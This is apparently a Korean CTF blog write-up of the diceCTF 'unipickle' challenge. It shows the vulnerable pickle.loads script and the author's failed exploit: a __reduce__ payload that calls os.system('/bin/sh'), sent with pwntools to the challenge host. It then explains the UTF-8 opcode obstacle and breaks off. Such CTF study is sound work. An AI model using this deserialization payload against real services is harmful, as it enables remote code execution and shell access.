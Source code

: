 ```yaml
---
title: diceCTF-unipickle writeup
date: 2024-02-07 00:10:10 +0900
categories: [writeup, misc]
tags: [diceCTF]
render_with_liquid: false
---
```


[diceCTF](https://ctf.dicega.ng/challs)에 참가는 했는데 문제는 풀지 못했다..

![1](/assets/img/posts/2024-02-07-itsme.png)

Unipickle이라는 문제에 꽂혀서 하나라도 풀어 보자는 생각이었지만 결국 실패했다. 대회가 끝난 뒤 디스코드에서 긁어 모은 라이트업을 내 나름대로 정리해보고자 한다.

## unipickle.py

```python
#!/usr/local/bin/python
import pickle
pickle.loads(input("pickle: ").split()[0].encode())
```

문제에 첨부된 unipickle.py의 내용은 정말 간단하다.
우선 python의 pickle 모듈을 사용한다. 사용자의 입력 값을 문자열로써 받아 UTF-8로 인코딩해 바이트 값으로 만들고, 이걸 pickle.loads로 역직렬화시킨다.

## 풀이

pickle에는 보안 취약성이 존재하는데, __reduce__ 메소드를 직렬화시킬 코드에 사용한다면 스택에서 호출 가능한 객체를 가져와서 별다른 <b>검증 없이 실행</b>하게 된다.

이에 착안하여 내가 구상한 공격 코드는 다음과 같다.

```python
import pickle
import pwn

class vul(object):
    import os
    
    def __reduce__(self):
        return (self.os.system, ("/bin/sh",))

temp = pickle.dumps(vul())
temp = temp.decode

r = remote('mc.ax', 31773)
r.sendline(temp)
r.interactive()
```

자세히 살펴보면, reduce 메소드가 반환할 튜플에 self.os.system를 그 매개변수로 /bin/sh 를 담았다.
해당 메소드가 담긴 객체를 pickle.dumps로 직렬화했고, 직렬화된 바이트 값을 decode로 UTF-8 인코딩해 서버의 input 함수에 전달하고자 했다.

잘 실행될 줄 알았으나...  

![2](/assets/img/posts/2024-02-07-error.png)

decode 부분에서 막혔다. 이유는 UTF-8로 인코딩이 불가능한 바이트 값을 포함하고 있었기 때문.  
서버는 입력단의 split 때문에 문자열만 처리하고 있기 때문에 이를 우회하기 위해선 UTF-8로 정상적인 디코딩이 가능한 직렬화된 바이트 값을 만들어야 한다.

필자는 이 이상 나아가지 못했지만, 이후는 디스코드에서 찾은 풀이들을 정리한 내용을 기술하겠다.

### 인코딩 가능한 바이트 시퀀스 만들기

직렬화된 바이트 값의 구조를 보기 위해 'pickletools' 모듈을 사용할 수 있다. 내가 만든 코드의 바이트 값을 상세하게 확인하기 위해 아래의 코드를 실행시켰다.

```python
from pickle import *
from pwn import *
import pickletools

class vul(object):
    import os
    
    def __reduce__(self):
        return (self.os.system, ("/bin/sh",))

p = pickle.dumps(vul())
pickletools.dis(p)
print(p)
```

![3](/assets/img/posts/2024-02-07-howcan.png)

먼저 주의해야 할 점은 이 구조는 운영체제마다 조금씩 다르다는 것이다. 특히 윈도우에선 os.system을 nt.system으로 받고 리눅스에선 posix.system으로 받는다.

바이트 시퀀스에서 proto(\x80), frame(\x95), memoize(\x94)같은 명령어들은 utf-8로 인코딩이 불가능하다.

일반적인 접근 방식처럼 원격 실행할 함수를 pickle 모듈로 직렬화시킨다면 이번 문제에선 사용할 수 없을 것이다.

